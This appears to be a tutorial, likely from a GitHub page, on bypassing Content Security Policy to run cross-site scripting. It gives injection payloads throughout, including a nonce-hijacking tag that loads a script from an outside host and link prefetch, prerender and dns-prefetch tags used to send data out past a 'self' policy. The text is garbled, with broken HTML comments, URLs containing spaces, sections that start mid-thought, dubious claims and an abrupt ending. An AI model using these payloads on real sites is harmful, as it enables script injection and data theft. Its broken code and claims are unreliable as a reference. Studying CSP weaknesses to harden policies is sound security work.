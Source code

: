 #### CSP (Content Security Policy) is there / in-place to mitigate some attacks, such as xss, csrf. It behaves as a whitelist mechanism for resources loaded or executed on the website, and is defined by HTTP headers or meta elements.    

Although CSP provides strong security protection, it also causes the following problems: 

1. Eval and related functions are disabled     
2. Embedded JavaScript code will not be executed   
3. remote scripts can only be loaded through whitelisting    

Basically, there are not many xss vulnerabilities that are prone to exist on CSP, unless you insist on using 'unsafe-inline'. If the configuration is improper, even the website cannot be used normally) Otherwise, xss will be greatly reduced, and bypass CSP is more csrf that is not easy to be killed by csp.    

![Capture](https://user-images.githubusercontent.com/25066959/70393684-90aba180-19ba-11ea-9d42-6f2458c102c6.PNG)    
![Capture](https://user-images.githubusercontent.com/25066959/70393830-7672c300-19bc-11ea-9e65-685a7a01beb8.PNG)   
This causes XSS to fail.   
http://cspisawesome.com/ Mainly summarize how to bypass CSP but we'll go more in depth   

## Bypassing CSP 

### xxxx-src *
`header("Content-Security-Policy: script-src *;");`   
The * symbol indicates that all url-style requests are allowed except for inline functions, which can be referenced through src.    
![Capture](https://user-images.githubusercontent.com/25066959/70394292-e6377c80-19c1-11ea-9a37-aa42727ef928.PNG)   


![Capture](https://user-images.githubusercontent.com/25066959/70394300-fcddd380-19c1-11ea-9821-8e80a9bce7bd.PNG)   
![Capture](https://user-images.githubusercontent.com/25066959/70394537-0bc58580-19c4-11ea-8e0c-0d370f7cf846.PNG)   

Since people who want to use csp may not generally set it this way, the real problem is with the `frame-src *` that the same source problem leads to not being able to xss (bypassing the same source), but it can still be csrf.    

### script-src unsafe-inline
`header("Content-Security-Policy: default-src 'none';script-src http://lemon.love/test/csp/ 'unsafe-inline';");`    

If added `unsafe-inline`, it will not block inline code. Inline code includes: `<script> block content`, `inline events`, `inline style`    
For example, you want to load it `http://love.lemon/1.js`, but it is limited to `http://lemon.love/test/csp/it` .   
![Capture](https://user-images.githubusercontent.com/25066959/70394582-724aa380-19c4-11ea-857b-8ce24a4422e2.PNG)    
But you can execute inline scripts.    
![Capture](https://user-images.githubusercontent.com/25066959/70394593-94442600-19c4-11ea-8ef3-e0453597362b.PNG)     
The default-src 'none' is none, that is, other loading cannot be entered, and data cannot be sent out. Although none can cause the xss data to be unavailable, but the website is estimated to be unable to operate normally.     
![Capture](https://user-images.githubusercontent.com/25066959/70394606-b2aa2180-19c4-11ea-9550-8495d6d7c2b0.PNG)    
This is often referred to as `Using Browser Completion`    
Some websites restrict only certain scripts to be used, and often use `<script>` the nonce attribute of the tag. Only nonce consistent scripts take effect. For example, the CSP is set as follows:    
`Content-Security-Policy: default-src 'none';script-src 'nonce-abc'`
Then when the script insertion point is as follows   
```
<p>Insertion Point</p>
    <script id="aa" nonce="abc">document.write('CSP');</script>
```   
This will spell a new script tag, where the src can be set freely    
```
<p><script src=//14.rs a="</p>
    <script id="aa" nonce="abc">document.write('CSP');</script>
```
 
 
### xxxx-src self
self represents a homogeneous url, so there seems to be no way to load a remote url to get data.    
`header("Content-Security-Policy: default-src 'self';script-src http://lemon.love/test/csp/ 'unsafe-inline';style-src 'self' 'unsafe-inline'; img-src 'self'");`    
![Capture](https://user-images.githubusercontent.com/25066959/70394639-ec7b2800-19c4-11ea-9441-68cc6bf812da.PNG)   
When users access these pre-loaded documents, the browser can quickly fetch them from the cache.
Can be divided into: DNS-prefetch, subresource and standard prefetch, preconnect, prerender    
```
<!-Preload a page->
<link rel = 'prefetch' href = 'http: // xxxx'> <!-firefox->
<link rel = 'prerender' href = 'http: // xxxx'> <!-chrome->
<!-Preload a picture->
<link rel = 'prefetch' href = 'http: //xxxx/x.jpg'>
<!-DNS pre-resolution->
<link rel = "dns-prefetch" href = "http: // xxxx">
<!-Specific file type preloading->
<link rel = 'preload' href = '// xxxxx / xx.js'> <!-chrome->
```
Not all pages can be preloaded. When resource types are as follows, preload operations are blocked:     
1. URL contains download resources
2. Page contains audio and video
3. Ajax requests for POST, PUT and DELET operations
4. HTTP authentication
5. HTTPS page
6. Pages with malware
7. Popup page
8. Pages that take up a lot of resources
Opened chrome developer tools
 
 
 
 
 
 
 
 
 

